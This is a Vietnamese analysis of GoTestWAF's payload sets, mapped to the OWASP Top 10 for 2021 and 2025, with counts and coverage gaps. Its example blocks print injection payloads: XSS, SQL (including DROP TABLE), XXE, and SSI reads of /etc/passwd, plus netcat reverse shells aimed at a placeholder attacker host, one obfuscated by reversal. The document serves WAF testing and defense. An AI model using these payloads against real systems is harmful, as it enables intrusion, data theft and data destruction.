

# GoTestWAF Payloads và OWASP Top 10 Analysis

## Mục Lục
1. [Tổng Quan](#tổng-quan)
2. [OWASP Top 10:2025](#owasp-top-102025)
3. [OWASP Top 10:2021](#owasp-top-102021)
4. [Mapping GoTestWAF Payloads -> OWASP Top 10](#mapping-gotestwaf-payloads---owasp-top-10)
5. [Thống Kê Chi Tiết](#thống-kê-chi-tiết)
6. [Kết Luận](#kết-luận)

---

## Tổng Quan

Tài liệu này phân tích bộ test **GoTestWAF** và mapping các payload test vào danh sách **OWASP Top 10** năm 2021 và 2025.

### Nguồn Dữ Liệu
- **OWASP Top 10:2025**: [https://owasp.org/Top10/2025/](https://owasp.org/Top10/2025/)
- **OWASP Top 10:2021**: [https://owasp.org/Top10/2021/](https://owasp.org/Top10/2021/)
- **GoTestWAF**

---

## OWASP Top 10:2025

| Rank | Category | Mô Tả |
|------|----------|-------|
| A01 | **Broken Access Control** | Kiểm soát truy cập bị lỗi, cho phép người dùng truy cập vượt quyền |
| A02 | **Security Misconfiguration** | Cấu hình bảo mật sai/thiếu |
| A03 | **Software Supply Chain Failures** | Lỗ hổng từ dependencies, thư viện bên thứ ba |
| A04 | **Cryptographic Failures** | Mã hóa yếu hoặc không có |
| A05 | **Injection** | Chèn mã độc (SQL, XSS, OS Command, LDAP...) |
| A06 | **Insecure Design** | Thiết kế không an toàn từ gốc |
| A07 | **Authentication Failures** | Xác thực không an toàn |
| A08 | **Software or Data Integrity Failures** | Kiểm tra tính toàn vẹn không đầy đủ |
| A09 | **Security Logging and Alerting Failures** | Ghi log và cảnh báo không đầy đủ |
| A10 | **Mishandling of Exceptional Conditions** | Xử lý ngoại lệ không đúng cách |

---

## OWASP Top 10:2021

| Rank | Category | Mô Tả |
|------|----------|-------|
| A01 | **Broken Access Control** | Kiểm soát truy cập bị lỗi |
| A02 | **Cryptographic Failures** | Mã hóa yếu hoặc không có |
| A03 | **Injection** | Chèn mã độc (SQL, XSS, OS Command...) |
| A04 | **Insecure Design** | Thiết kế không an toàn |
| A05 | **Security Misconfiguration** | Cấu hình bảo mật sai |
| A06 | **Vulnerable and Outdated Components** | Components lỗi thời/có lỗ hổng |
| A07 | **Identification and Authentication Failures** | Xác thực không an toàn |
| A08 | **Software and Data Integrity Failures** | Kiểm tra tính toàn vẹn không đầy đủ |
| A09 | **Security Logging and Monitoring Failures** | Ghi log không đầy đủ |
| A10 | **Server-Side Request Forgery (SSRF)** | Tấn công SSRF |

---

## Mapping GoTestWAF Payloads -> OWASP Top 10

### Tổng Hợp Thống Kê Payloads

| Loại Payload (Set/Case) | Số Lượng | OWASP 2025 | OWASP 2021 |
|-------------------------|----------|------------|------------|
| **XSS Scripting** (owasp/xss-scripting) | 224 | A05: Injection | A03: Injection |
| **Community XSS** (community/community-xss) | 104 | A05: Injection | A03: Injection |
| **SQL Injection** (owasp/sql-injection) | 48 | A05: Injection | A03: Injection |
| **NoSQL Injection** (owasp/nosql-injection) | 50 | A05: Injection | A03: Injection |
| **Shell/OS Injection** (owasp/shell-injection) | 32 | A05: Injection | A03: Injection |
| **LDAP Injection** (owasp/ldap-injection) | 24 | A05: Injection | A03: Injection |
| **SST Injection** (owasp/sst-injection) | 24 | A05: Injection | A03: Injection |
| **Server-Side Include** (owasp/ss-include) | 24 | A05: Injection | A03: Injection |
| **Mail Injection** (owasp/mail-injection) | 24 | A05: Injection | A03: Injection |
| **Path Traversal** (owasp/path-traversal) | 20 | A05: Injection | A03: Injection |
| **LFI** (community/community-lfi) | 8 | A05: Injection | A03: Injection |
| **LFI Multipart** (community/community-lfi-multipart) | 2 | A05: Injection | A03: Injection |
| **RCE** (owasp/rce + rce-urlparam + rce-urlpath) | 18 | A05: Injection | A03: Injection |
| **Community RCE** (community/community-rce) | 7+ | A05: Injection | A03: Injection |
| **Community SQLi** (community/community-sqli) | 12 | A05: Injection | A03: Injection |
| **XML Injection** (owasp/xml-injection) | 7 | A05: Injection | A03: Injection |
| **XXE** (community/community-xxe) | 2 | A05: Injection | A03: Injection |
| **CRLF Injection** (owasp/crlf) | 7 | A05: Injection | A03: Injection |
| **OWASP API** (owasp-api/rest, soap, non-crud) | 14 | A02: Security Misconfig | A05: Security Misconfig |
| **False Positives** (false-pos/texts) | 141 | N/A (Test data) | N/A (Test data) |

---

## Thống Kê Chi Tiết

### 🔴 A05:2025 / A03:2021 - Injection (Chiếm Đa Số)

GoTestWAF tập trung **rất nhiều** vào test các loại **Injection attacks**, bao gồm:

#### 1. Cross-Site Scripting (XSS)
- **Tổng cộng: ~328 payloads**
- Categories: `owasp/xss-scripting` (224), `community/community-xss` (104), các biến thể 8kb/16kb/32kb/64kb/128kb

```
Ví dụ payloads:
- <script>alert(1);</script>
- 
- javascript:alert(document.domain)
- <svg onload=alert(1)>
```

> [!IMPORTANT]
> **XSS là loại tấn công có số lượng CVE lớn nhất** theo OWASP 2025, với hơn 30,000 CVEs (CWE-79).

#### 2. SQL Injection (SQLi)
- **Tổng cộng: ~62 payloads**
- Categories: `owasp/sql-injection` (48), `community/community-sqli` (12+)

```
Ví dụ payloads:
- ' OR '1'='1
- UNION SELECT username || ':' || password FROM users
- 1; DROP TABLE users--
- ' AND 1=1--
```

> [!NOTE]
> SQL Injection có hơn 14,000 CVEs theo OWASP 2025 (CWE-89).

#### 3. NoSQL Injection
- **Tổng cộng: 50 payloads**
- Category: `owasp/nosql-injection`

```
Ví dụ payloads:
- {"$gt": ""}
- {"$ne": null}
- {$where: "this.password == 'password'"}
```

#### 4. OS Command / Shell Injection
- **Tổng cộng: 32 payloads**
- Category: `owasp/shell-injection`

```
Ví dụ payloads:
- ; cat /etc/passwd
- | nc -e /bin/bash attacker.com 4321
- $(whoami)
- `id`
```

#### 5. Remote Code Execution (RCE)
- **Tổng cộng: ~25 payloads**
- Categories: `owasp/rce`, `owasp/rce-urlparam`, `owasp/rce-urlpath`, `community/community-rce`

```
Ví dụ payloads:
- ;$(printf 'hsab/nib/ e- 4321 1.0.0.721 nc'|rev)
- ${system('cat /etc/passwd')}
- php://input với POST body chứa mã PHP
```

#### 6. Path Traversal / Local File Inclusion (LFI)
- **Tổng cộng: ~30 payloads**
- Categories: `owasp/path-traversal` (20), `community/community-lfi` (8), `community/community-lfi-multipart` (2)

```
Ví dụ payloads:
- ../../../etc/passwd
- %C0%AE%C0%AE%C0%AFetc%C0%AFpasswd (UTF-8 encoding bypass)
- ....//....//....//etc/passwd
```

#### 7. LDAP Injection
- **Tổng cộng: 24 payloads**
- Category: `owasp/ldap-injection`

```
Ví dụ payloads:
- *)(uid=*))(|(uid=*
- admin)(&))
```

#### 8. Server-Side Template Injection (SSTI)
- **Tổng cộng: 24 payloads**
- Category: `owasp/sst-injection`

```
Ví dụ payloads:
- {{7*7}}
- ${7*7}
- #{7*7}
```

#### 9. XML Injection / XXE
- **Tổng cộng: ~9 payloads**
- Categories: `owasp/xml-injection` (7), `community/community-xxe` (2)

```
Ví dụ payloads:
- <?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
- UTF-7 encoded XML entities
```

#### 10. Server-Side Include (SSI) Injection
- **Tổng cộng: 24 payloads**
- Category: `owasp/ss-include`

```
Ví dụ payloads:
- <!--#exec cmd="cat /etc/passwd"-->
- <!--#include virtual="/etc/passwd"-->
```

#### 11. CRLF Injection
- **Tổng cộng: 7 payloads**
- Category: `owasp/crlf`

```
Ví dụ payloads:
- %0d%0aHeader-Injection: value
- \r\nSet-Cookie: malicious=true
```

#### 12. Mail Injection
- **Tổng cộng: 24 payloads**
- Category: `owasp/mail-injection`

```
Ví dụ payloads:
- to@example.com\r\nBcc: attacker@evil.com
- subject\r\n\r\nMalicious content
```

---

### 🟡 A02:2025 / A05:2021 - Security Misconfiguration

#### OWASP API Testing
- **Tổng cộng: ~14 payloads**
- Categories: `Plain/owasp-api`, `owasp-api/rest`, `owasp-api/soap`, `owasp-api/non-crud`

Test các lỗ hổng API như:
- REST API vulnerabilities
- SOAP injection
- Non-CRUD operations abuse

---

## Bảng Tổng Hợp Coverage



---

## Kết Luận

### Các lỗ hổng OWASP Top 10 được cover trong GoTestWAF:

| OWASP 2025 | OWASP 2021 | Status | Số Payloads |
|------------|------------|--------|-------------|
| A05: Injection | A03: Injection | ✅ **Đầy đủ** | ~600+ |
| A02: Security Misconfiguration | A05: Security Misconfiguration | ⚠️ Một phần (API only) | ~14 |

### ❌ Các lỗ hổng CHƯA được test trong GoTestWAF:

| OWASP 2025 | OWASP 2021 | Lý do |
|------------|------------|-------|
| A01: Broken Access Control | A01: Broken Access Control | Cần test logic nghiệp vụ |
| A03: Software Supply Chain Failures | - | Liên quan tới dependencies |
| A04: Cryptographic Failures | A02: Cryptographic Failures | Kiểm tra mã hóa |
| A06: Insecure Design | A04: Insecure Design | Cần review kiến trúc |
| A07: Authentication Failures | A07: Auth Failures | Cần test flow đăng nhập |
| A08: Software/Data Integrity | A08: Software/Data Integrity | Kiểm tra CI/CD |
| A09: Logging Failures | A09: Logging Failures | Kiểm tra log |
| A10: Mishandling Exceptions | - | Error handling |
| - | A06: Vulnerable Components | Package scanning |
| - | A10: SSRF | Server-side request |

### Đánh Giá Tổng Thể

> **GoTestWAF tập trung chủ yếu vào A05:2025 (Injection)** - đây là category có số lượng CWE và CVE lớn nhất, nên việc test kỹ lưỡng là hoàn toàn hợp lý.

**Điểm mạnh:**
- Coverage rất tốt cho các loại Injection attacks
- Bao gồm cả payloads encoding bypasses (UTF-7, URL encoding, Base64...)
- Test với nhiều độ dài khác nhau (8kb, 16kb, 32kb, 64kb, 128kb) để test buffer limits

**Hạn chế:**
- Không cover các lỗ hổng liên quan tới business logic (Broken Access Control)
- Không test SSRF, Auth failures, Cryptographic failures
- Cần bổ sung test cho các API security issues

---


